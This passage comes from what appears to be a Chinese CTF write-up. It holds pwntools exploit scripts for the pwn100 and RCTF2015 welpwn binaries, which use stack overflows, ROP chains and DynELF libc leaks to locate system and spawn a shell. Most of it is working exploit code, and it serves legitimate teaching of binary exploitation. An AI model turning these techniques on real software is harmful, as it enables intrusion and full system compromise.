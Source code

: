 ```
  data = data[:4]
  log.info("%#x => %s" % (address, (data or '').encode('hex')))
  return data
d = DynELF(leak, elf=ELF('./pwn100'))
systemAddress = d.lookup('__libc_system', 'libc')
print "systemAddress:", hex(systemAddress)
print "-----------write /bin/sh to bss--------------"
payload1 = "A" * 64 + "A" * 8
payload1 += p64(pop6address) + p64(0) + p64(1) + p64(readgot) + p64(8) + p64(waddress) + p64(0)
payload1 += p64(movcalladdress)
payload1 += '\x00'*56
payload1 += p64(startaddress)
payload1 =  payload1.ljust(200, "B")
p.send(payload1)
print p.recvuntil('bye~\n')
p.send("/bin/sh\x00")
print "-----------get shell--------------"
payload2 = "A" * 64 + "A" * 8
payload2 += p64(poprdi) + p64(waddress)
payload2 += p64(systemAddress)
payload2 += p64(startaddress)
payload2 =  payload2.ljust(200, "B")
p.send(payload2)
p.interactive()
```

RCTF2015-welpwn

本题也是64位linux下的二进制程序，无cookie，也存在明显的栈溢出漏洞，且可以循环泄露，符合我们使用DynELF的条件，与其他两题的区别主要在于利用过程比较绕。

整个程序逻辑是这样的，main函数中，用户可以输入1024个字节，并通过echo函数将输入复制到自身栈空间，但该栈空间很小，使得栈溢出成为可能。由于复制过程中，以“\x00”作为字符串终止符，故如果我们的payload中存在这个字符，则不会复制成功；但实际情况是，因为要用到上面提到的通用gadget来为write函数传参，故肯定会在payload中包含“\x00”字符。

这个题目设置了这个障碍，也为这个障碍的绕过提供了其他条件。即由于echo函数的栈空间很小，与main函数栈中的输入字符串之间只间隔32字节，故我们可以利用这一点，只复制过去24字节数据加上一个包含连续4个pop指令的gadget地址，并借助这个gadget跳过原字符串的前32字节数据，即可进入我们正常的通用gadget调用过程，具体脚本如下。

```
from pwn import *
import binascii
p = process("./welpwn")
elf = ELF("welpwn")
readplt = elf.symbols["read"]
readgot = elf.got["read"]
writeplt = elf.symbols["write"]
writegot = elf.got["write"]
startAddress =    0x400630
popr12r13r14r15  = 0x40089c
pop6address    = 0x40089a
movcalladdress  = 0x400880
def leak(address):
  print p.recv(1024)
  payload = "A" * 24
  payload += p64(popr12r13r14r15)
  payload += p64(pop6address) + p64(0) + p64(1) + p64(writegot) + p64(8) + p64(address) + p64(1)
  payload += p64(movcalladdress)
  payload += "A" * 56
  payload += p64(startAddress)
  payload =  payload.ljust(1024, "C")
  p.send(payload)
  data = p.recv(4)
  print "%#x => %s" % (address, (data or '').encode('hex'))
  return data
dynelf = DynELF(leak, elf=ELF("./welpwn"))
systemAddress = dynelf.lookup("__libc_system", "libc")
print hex(systemAddress)
```